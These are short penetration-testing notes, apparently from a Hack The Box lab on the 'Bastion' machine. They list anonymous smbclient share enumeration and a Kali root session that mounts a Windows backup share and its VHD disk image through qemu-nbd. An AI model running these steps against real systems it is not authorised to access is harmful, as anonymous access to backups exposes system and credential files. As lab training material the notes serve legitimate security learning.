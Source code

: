 # SMBD client liat share

    smbclient --list //10.10.10.134/ -U ""

# SMB liat dir

    smbclient //10.10.10.134/Backups -U ""

# Mount SMB vhd to /mnt

    root@kali:~/Desktop/HTB/boxes/bastion# mkdir /mnt/L4mpje-PC
    root@kali:~/Desktop/HTB/boxes/bastion# mkdir /mnt/vhd
    root@kali:~/Desktop/HTB/boxes/bastion# modprobe nbd
    root@kali:~/Desktop/HTB/boxes/bastion# mount -t cifs //bastion.htb/Backups/WindowsImageBackup/L4mpje-PC  /mnt/L4mpje-PC/ -o user=anonymous
    Password for anonymous@//bastion.htb/Backups/WindowsImageBackup/L4mpje-PC:
    root@kali:~/Desktop/HTB/boxes/bastion# qemu-nbd -r -c /dev/nbd0 "/mnt/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd"
    root@kali:~/Desktop/HTB/boxes/bastion# mount -r /dev/nbd0p1 /mnt/vhd
    root@kali:~/Desktop/HTB/boxes/bastion#


